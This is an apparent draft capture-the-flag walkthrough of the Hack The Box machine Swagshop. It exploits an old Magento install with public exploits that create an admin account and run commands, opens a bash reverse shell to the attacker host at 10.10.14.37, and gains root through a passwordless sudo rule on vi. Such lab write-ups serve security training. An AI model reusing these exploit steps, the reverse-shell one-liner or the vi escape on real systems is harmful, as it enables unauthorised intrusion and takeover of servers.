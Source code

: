 ```yaml
---
author: bhero
topic: htb
---
```

Walkthrough for Swagshop : 10.10.10.140

> DRAFT VERSION
> TODO, add gobusters and explanations

## Enumeration

 
``` bash
SWAGSHOP=10.10.10.140
ATTACK=10.10.14.37
```
 

``` bash
sudo nmap $SWAGSHOP -Pn
```

```
Nmap scan report for 10.10.10.140
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visit the website in Firefox to see Magento:

![magento.png](/assets/htb_stuff/swagshop/magento.png)



> TODO gobuster the admin panel

## Triage


Check the source code to see it is 2014.

chech searsploit

``` bash
searchsploit magento
```

There are a few, I look through them:

```
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username'] | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                    | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File               | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                 | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                       | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                    | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                    | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                 | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial  | exploits/php/webapps/38651.txt
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```


Exploit 37811.py has RCE but needa authentication to work, which I don't have. On further reading I notice 37977.py creates admin accounts.

This looks promisining as I uses injection to create a ner admin user as it does not require authentication then chain it to get a shell.

``` bash
searchsploit -x 37977
```


## Exploit

I copy it to my working directory 

``` bash
searchsploit -m 37977
```

and edit the code as to remove all the non python code and define a target url:

```
target = "http://10.10.10.140/index.php" #line 31
```

I run with:

``` bash
python 37977.py 
```


This appears to work

```
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
```

so I try to login:


![login.png](/assets/htb_stuff/swagshop/login.png)


But this fails, hmmm what did I do wrong?

> TODO gobuster analysis


I go to the admin panel at http://10.10.10.140/index.php/admin and try:

![admin.png](/assets/htb_stuff/swagshop/admin.png)

it works!

![accesss.png](/assets/htb_stuff/swagshop/accesss.png)


Now that I have the frome:forem access credentials I look at the the other exploit. I start by copying it to my working directory:

``` bash
searchsploit -m 37811
```

I edit the source code to add the username and password vaues:

``` python
username = 'forme' #line 32
password = 'forme' #line 33
```

form http://10.10.10.140/app/etc/local.xml I get the install date:

``` xml
<![CDATA[ Wed, 08 May 2019 07:23:09 +0000 ]]>
```

So I change line 35 to:

``` python
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

when I execute with:

``` bash
python 37811.py http://$SWAGSHOP/index.php/admin/ "uaname -a"
```

I get back an error:

```
Traceback (most recent call last):
  File "37811.py", line 69, in 
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

> So it appeared that the request URL just before line 69 was not entirely correct as it resulted in an empty group. Interestingly, this line contained an Ajax request with the statement of a certain period. After trying this request with several possible options in a python console, it resulted that the option of a period of 1 year was the right setting.



I change the tab orders period to 1 yr:

``` python
request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key) #line 69
```

and run:

```
python 37811.py http://$SWAGSHOP/index.php/admin/ "uname -a"
```

This time I get no errors, suggesting blind command execution I try a shell:

``` bash
python 37811.py http://$SWAGSHOP/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.37/1337 0>&1'"
```

And get RCE:

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.140] 60276
bash: cannot set terminal process group (1291): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ 
```


## Priv Escalation

I background the shell with Ctl^Z then in the original terminal forward the settings and restart the backround reverse shell with the following commands:

``` bash
stty raw -echo
fg
```

This forwards my terminal special keys, next I run

``` bash
sudo -l
```

to see my user can run `sudo /usr/bin/vi /var/www/html/*` with no password requirements:

```
Matching Defaults entries for www-data on swagshop:
                                                                         env_reset, mail_badpass,
                                                                                                     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

                                                                       User www-data may run the following commands on swagshop:
              (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This is great as I can call potentially call a priveleged shell in vi:

``` bash
sudo /usr/bin/vi /var/www/html/pwnd
```

``` vi
:! /bin/sh
```

> t this point my shell broke, I had to revert. second time I didn't botehr with the TTY forwarding

And I'm root! W00t!W00t!

```
id
uid=0(root) gid=0(root) groups=0(root)
```


## Bonus

TODO Debugging the RCE script and gobuster